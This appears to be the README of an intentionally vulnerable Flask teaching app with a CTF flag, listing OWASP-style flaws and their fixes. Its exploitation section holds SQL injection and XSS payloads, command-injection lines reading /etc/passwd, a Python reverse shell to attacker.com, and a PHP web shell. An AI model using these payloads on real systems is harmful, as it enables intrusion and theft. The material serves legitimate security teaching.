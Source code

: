 # Vulnerable Web Application Demo

This Flask web application was intentionally designed with security vulnerabilities for educational purposes. It demonstrates common web security issues according to the OWASP Top 10.

## ⚠️ Warning

**This application is intentionally vulnerable and should only be used in a controlled environment for educational purposes.**

**DO NOT deploy this application in a production environment or use it with real user data.**

## Included Vulnerabilities

1. **SQL Injection**: The login form is vulnerable to SQL injection attacks.
2. **Cross-Site Scripting (XSS)**: The comments section allows execution of arbitrary JavaScript.
3. **Insecure Direct Object References (IDOR)**: User profiles can be accessed by manipulating URL parameters.
4. **Path Traversal**: File upload functionality allows saving files to unauthorized locations.
5. **Command Injection**: Admin tools allow executing arbitrary system commands.
6. **Hidden Flag**: A flag file is placed in a restricted directory for CTF-style challenges.
7. **Security Misconfiguration**: The application runs in debug mode and has other security misconfigurations.
8. **Password Storage**: Passwords are stored as plaintext in the database.

## Setup Instructions

1. Create a virtual environment:
   ```
   python -m venv venv
   source venv/bin/activate  # On Windows: venv\Scripts\activate
   ```

2. Install dependencies:
   ```
   pip install -r requirements.txt
   ```

3. Run the application:
   ```
   python app.py
   ```

4. Access the application at http://127.0.0.1:5000

## Deployment Options

### Docker Deployment

This application comes with Docker configuration files for easy deployment:

1. **Development Deployment**:
   ```bash
   docker-compose up -d
   ```

2. **Production Deployment**:
   ```bash
   # Set a secure secret key
   export SECRET_KEY="your_secure_secret_key_here"
   
   # Build and run the production container
   docker-compose -f docker-compose.prod.yml up -d
   ```

3. **Deploy to Cloud Platforms**:
   - **AWS ECS**: Push your image to ECR and deploy using ECS
   - **Google Cloud Run**: Push your image to GCR and deploy as a Cloud Run service
   - **Azure Container Instances**: Push your image to ACR and deploy to ACI
   - **Digital Ocean App Platform**: Connect your repo and use the Dockerfile.prod

### Vercel Deployment

To deploy on Vercel:

1. Install Vercel CLI:
   ```bash
   npm install -g vercel
   ```

2. Add a `vercel.json` file to the repository
   
3. Deploy using Vercel CLI:
   ```bash
   vercel
   ```

## Exploitation Examples

### SQL Injection
- Username: `' OR '1'='1` with any password
- Username: `admin' --` with any password

### XSS (Cross-Site Scripting)
Post a comment with:
- `<script>alert('XSS');</script>`
- `<img src="x" onerror="alert('XSS')">`

### IDOR (Insecure Direct Object References)
- Navigate to `/profile/1`, `/profile/2`, etc., without proper authorization

### Path Traversal
- Upload a file with subdirectory path: `../restricted`
- This bypasses access controls and allows writing to arbitrary directories

### Command Injection
Use commands like:
- `ping 127.0.0.1 && whoami`
- `ping 127.0.0.1; cat /etc/passwd`
- `ping 127.0.0.1; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker.com",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'`

### Reverse Shell Examples
1. Create a reverse shell file (e.g., shell.php):
   ```php
   <?php system($_GET['cmd']); ?>
   ```

2. Upload to an accessible location using path traversal

3. Access the shell: `/uploads/shell.php?cmd=whoami`

## Capture The Flag

Find and access the hidden flag file in the restricted directory. Hint: It's at `/restricted/flag.txt` but requires either:
- Admin access
- Path traversal through the file upload vulnerability

## Learning Resources

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

## How to Fix These Vulnerabilities

Each vulnerability has a secure alternative:

1. **SQL Injection**: Use parameterized queries or an ORM
2. **XSS**: Sanitize user input and use proper escaping
3. **IDOR**: Implement proper access controls
4. **Path Traversal**: Validate and sanitize file paths, use secure file storage
5. **Command Injection**: Never use user input directly in system commands
6. **Security Misconfiguration**: Turn off debug mode in production, implement proper error handling
7. **Password Storage**: Use password hashing with a strong algorithm (bcrypt, Argon2) 